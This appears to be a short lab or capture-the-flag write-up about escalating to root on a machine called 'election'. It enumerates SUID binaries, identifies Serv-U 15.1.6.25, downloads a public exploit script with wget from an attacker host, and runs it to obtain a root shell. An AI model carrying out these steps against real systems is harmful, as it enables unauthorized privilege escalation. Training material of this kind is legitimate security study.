


# Serv-U

---

## SUID Permissions

```bash
love@election:~$ find / -perm -u=s -type f 2>/dev/null

/usr/bin/arping
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/sbin/pppd
/usr/local/Serv-U/Serv-U
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
```

## Exploit Serv-U Privesc Exploit

We locate the version of the Serv-U service as 15.1.6.25



Checking searchsploit, there is a privesc shell script for Serv-U version under 15.1.



Move the exploit to the target

```bash
love@election:/tmp$ wget http://192.168.45.217:8000/47173.sh
--2023-11-11 09:38:30--  http://192.168.45.217:8000/47173.sh
Connecting to 192.168.45.217:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1163 (1.1K) [text/x-sh]
Saving to: ‘47173.sh’

47173.sh            100%[===================>]   1.14K  --.-KB/s    in 0s

2023-11-11 09:38:30 (89.3 MB/s) - ‘47173.sh’ saved [1163/1163]

love@election:/tmp$ chmod +x 47173.sh
love@election:/tmp$ ./47173.sh
[*] Launching Serv-U ...
sh: 1: : Permission denied
[+] Success:
-rwsr-xr-x 1 root root 1113504 Nov 11 09:38 /tmp/sh
[*] Launching root shell: /tmp/sh
sh-4.4# id
uid=1000(love) gid=1000(love) euid=0(root) groups=1000(love),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare)
sh-4.4# whoami
root

```
